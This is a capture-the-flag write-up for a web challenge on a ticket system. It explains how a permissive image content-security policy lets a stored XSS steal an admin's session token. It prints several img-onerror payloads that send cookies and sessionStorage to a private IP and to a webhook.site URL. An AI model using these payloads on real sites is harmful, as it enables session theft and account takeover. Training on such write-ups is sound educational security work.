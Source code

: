 ```yaml
---
date: 2023-07-31 18:50:22 +02:00
categories: [SecurityValley, Web]
tags: [Web, CTF, SecurityValley]
---
```

This is a writeup of the web challenge The Ticketsystem from the [Security Valley](https://ctf.securityvalley.org) CTF
#### Level: 3, Score: 40
# Premise
Our IT department has released a new web based support system. Every user can now create a ticket if she/he needs help. Is that awesome?! And the admins have promised to check every ticket super fast. So don't forget: everybody trust the admin! And the admin trust you! Is that a mistake in the end? Please login with username 'ticket' and password '!H3LP-CNTR90' to create a ticket. Please not: the ticket-system is recreating every hour.

**Link:** [https://ctf.securityvalley.org/tfe](https://ctf.securityvalley.org/tfe)
## Challenge links:

**Link:** [https://ctf.securityvalley.org/tfe](https://ctf.securityvalley.org/tfe)

# Observations
If we start out by looking at the login page we get redirectd too, we can open our browsers network tab and find the login document. 

As we can see in the challenge description, we have a set of credentials, from which we can login to the page. 

Once logged in, we can create a ticket, when we do so, we get a prompt to wait 5 to 10 seconds and a`Ticket id`.

![ticket submitted](/assets/images/ticketsys_inputbox.png)

Attempting to navigate to the ticket using the ID yields no result. 

If we look at the page source and go to the debugger and look at the contents of the `main.js` file there. If we search the word `admin`, we find that there is a path labled `'admin/id'`, meaning that we can navigate to our ticket (if we were an admin user).

(Navigations outside the first 3 in the array will redirect to the /login page)

![page visable to admin](/assets/images/ticketsys_page_vis_to_adm.png)

Looking in our session storage, we also find that we have a [JWT](https://jwt.io/) session token.
![JWT token](/assets/images/ticketsys_jwt.png)

Decoding this contains the following:
![decoded JWT](/assets/images/ticketsys_jwt_decoded.png)

Looking at the response headers, we get an interesting bit of information. 

The [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) will upgrade insecure requests, it only trusts connections from itself (connect-src), an assets link, but most importantly, it has its img-src set to *, meaning that it will accept images from anywhere, lets keep this in mind for later.
![response headers](/assets/images/ticketsys_response_header.png)


# Solution
If we had a secret key, we could attempt to forge a fake admin key. 
Since we do not, a different approach is required, we're going to attempt to steal the admins session cookie.

We can do this since we know the admin uses a machine that will allow us to steal a session cookie, since the challenge states that the admin views the ticket, so if we can get some form of code execution on the admins machine, we should be able to steal a admin JWT token.

If we look at [WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) we find the 4th example:

`<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">`
 
As previously mentioned, the page will accept any image source, so we exploit this.

The basic premise here is that we want to trigger the onerror script, which will look at the logged in (admin) user, steal those admin credentials, and pass them to a destination.

However, we want to modify the destination of the token (since we cant reach 192.168.0.18), and we can do this with the site [webhook.site](https://webhook.site/).
For my instance here, my hook was `https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf`, (note that the autogenerated ID varies), making this the page my attack "phones home" to:
`<img src=x onerror="this.src='https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf/?'+document.cookie; this.removeAttribute('onerror');">`

This gave us no result, but if we tweak the exploit string a bit, so if we actually attempt to pass the session storage, we get the following exploit string:
`<img  src=x  onerror="this.src='https://webhook.site/f6263527-fb76-45d7-b8b8-f484a0554ecf?session='+btoa(JSON.stringify(sessionStorage)); this.removeAttribute('onerror');">`
**ba9abf7e-bfb1-4655-9346-73a7dd1648a1**
Which gives us:
![response headers](/assets/images/ticketsys_webhook.png)

Decoding this token (in CyberChef) gives us:
![admin token b64 decode](/assets/images/ticketsys_decoded_admin.png)

We can now change our current session storage to our newly obtained admin credentials
![admin credentials](/assets/images/ticketsys_changed_to_admin_creds.png)

If we now navigate to the previously found page (/admin/[TICKET ID]), we can view the following window:
![flag](/assets/images/ticketsys_flag.png)

Containing the name of our ticket, our command and most importantly, the flag.
# Tools and sources used:
 - [Webhook.site](https://webhook.site/)
 - [WebHacking101](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
 - [CyberChef](https://gchq.github.io/CyberChef)
